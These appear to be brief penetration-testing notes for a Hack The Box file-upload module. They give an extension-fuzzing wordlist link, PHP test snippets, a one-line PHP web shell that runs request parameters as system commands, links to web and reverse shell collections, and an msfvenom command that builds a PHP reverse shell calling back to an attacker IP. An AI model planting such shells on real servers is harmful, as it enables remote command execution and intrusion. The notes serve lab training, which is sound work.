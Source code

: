 ### File extension fuzzing

Wordlist
	https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt


### PHP Testing

```php
<?php echo "Hello HTB";?>
```
```php
<?php echo getHostName();?>
```
```php
<?php system($_REQUEST['cmd']); ?>
```


### Web Shells

[PHP Bash](https://github.com/Arrexel/phpbash)
[SecList Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)


### Reverse Shells
 [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)
 [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

##### Custom
```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
https://github.com/lexisrepo/Shells


